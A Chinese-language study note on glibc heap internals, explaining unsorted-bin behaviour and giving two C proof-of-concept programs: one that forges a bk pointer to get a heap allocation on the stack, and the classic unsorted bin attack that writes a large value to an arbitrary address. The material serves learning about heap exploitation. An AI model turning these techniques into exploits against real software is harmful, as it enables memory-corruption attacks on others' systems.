



### unsorted bin的来源

1. 当一个较大的 chunk 被分割成两半后，如果剩下的部分大于 MINSIZE，就会被放到 unsorted bin 中。
2. 释放一个不属于 fast bin 的 chunk，并且该 chunk 不和 top chunk 紧邻时，该 chunk 会被首先放到 unsorted bin 中。关于 top chunk 的解释，请参考下面的介绍。
3. 当进行 malloc_consolidate 时，可能会把合并后的 chunk 放到 unsorted bin 中，如果不是和 top chunk 近邻的话。

### 基本使用情况

1. Unsorted Bin 在使用的过程中，采用的遍历顺序是 FIFO，**即插入的时候插入到 unsorted bin 的头部，取出的时候从链表尾获取**。
2. 在程序 malloc 时，如果在 fastbin，small bin 中找不到对应大小的 chunk，就会尝试从 Unsorted Bin 中寻找 chunk。如果取出来的 chunk 大小刚好满足，就会直接返回给用户，否则就会把这些 chunk 分别插入到对应的 bin 中。


### 通过unsorted bin把堆申请到栈上

示例代码

```c
#include <stdio.h>
#include <stdlib.h>
#include <stdint.h>
#include <string.h>

int main() {
	intptr_t stack_buffer[4] = {0};
	intptr_t *p1;
	p1 = malloc(0x100);
	malloc(0x10);
	free(p1);
	p1[1] = &stack_buffer; // p1->bk = stack_buffer_addr
	stack_buffer[1] = 0x120; //stack_buffer->size = 0x120
	stack_buffer[3] = &stack_buffer; // stack_buffer->bk = stack_buffer_addr	
//====================================line=====================================
	malloc(0x110);
}
```

攻击示意图




这里stack_buffer->bk也可以伪造成其他的值，需要是能够合法访问的地址就行，会把这个地址当作堆块链在unsorted bin上。


### 通过unsorted bin attack实现一个任意地址的大数字（unsorted bin的地址）写

示例代码

```c
#include <stdio.h>
#include <stdlib.h>
#include <stdint.h>
#include <string.h>

int main() {
	intptr_t stack_buffer[4] = {0};
	intptr_t *p1;
	p1 = malloc(0x100);
	malloc(0x200);
	free(p1);
	p1[1] = &stack_buffer; // p1->bk = stack_buffer_addr
	malloc(0x100);
	if(stack_buffer[2]>0x10000)system("echo success!!!");
}
```

最终效果是stack_buffer[2]的地方被我们写成一个大数字（unsorted bin的地址）



攻击示意图

